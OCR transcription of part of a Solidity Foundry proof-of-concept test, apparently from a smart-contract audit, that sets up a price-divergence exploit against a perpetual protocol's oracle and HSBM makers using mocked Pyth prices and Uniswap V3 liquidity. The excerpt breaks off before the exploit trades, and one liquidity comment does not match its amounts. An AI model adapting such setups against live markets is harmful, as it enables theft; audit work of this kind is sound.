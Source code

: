 ```solidity
        

        //whitelist users
        oracle_maker.setValidSender(exploiter,true);
        
 

        //mock the pyth price to be same as uniswap (set to ~$2000 in base class)
        pyth = IPyth(0xff1a0f4744e8582DF1aE09D5611b887B6a12925C);
        _mockPythPrice(2000,0);

        //add more liquidity ($20M) to uniswap pool
        deal(address(baseToken), spotLp, 10000e9, true);
        deal(address(collateralToken), spotLp, 20000000e6, true);
        vm.startPrank(spotLp);
        uniswapV3NonfungiblePositionManager.mint(
            INonfungiblePositionManager.MintParams({
                token0: address(collateralToken),
                token1: address(baseToken),
                fee: 3000,
                tickLower: -887220,
                tickUpper: 887220,
                amount0Desired: collateralToken.balanceOf(spotLp),
                amount1Desired: baseToken.balanceOf(spotLp),
                amount0Min: 0,
                amount1Min: 0,
                recipient: spotLp,
                deadline: block.timestamp
            })
        );
    }


    function testPriceDivergencePOC() public {
       

        //deposit 30k collateral as margin for exploiter (also mints the amount)
       _deposit(marketId, exploiter, 30000*1e6);

        //deposit to makers
        //initial HSBM maker deposit: 2000 base tokens ($4M)
       vm.startPrank(makerLp);
       deal(address(baseToken), makerLp, 2000*1e9, true);
       baseToken.approve(address(maker), type(uint256).max);
       maker.deposit(2000*1e9);

       //initial oracle maker deposit: $2M (1000 base tokens)
       deal(address(collateralToken), makerLp, 2000000*1e6, true); 
       collateralToken.approve(address(oracle_maker), type(uint256).max);
       oracle_maker.deposit(2000000*1e6);
       vm.stopPrank();

        //add liquidity ($20M) to uniswap pool
        deal(address(baseToken), spotLp, 100000000e9, true);
        deal(address(collateralToken), spotLp, 200000000000e6, true);
        bool baseIs0 = (address(baseToken) < address(collateralToken)) ; 
        vm.startPrank(spotLp);
        uniswapV3NonfungiblePositionManager.mint(
            INonfungiblePositionManager.MintParams({
                token0: baseIs0?address(baseToken):address(collateralToken),
                token1: baseIs0?address(collateralToken):address(baseToken),
                fee: 3000,
                tickLower: -887220,
```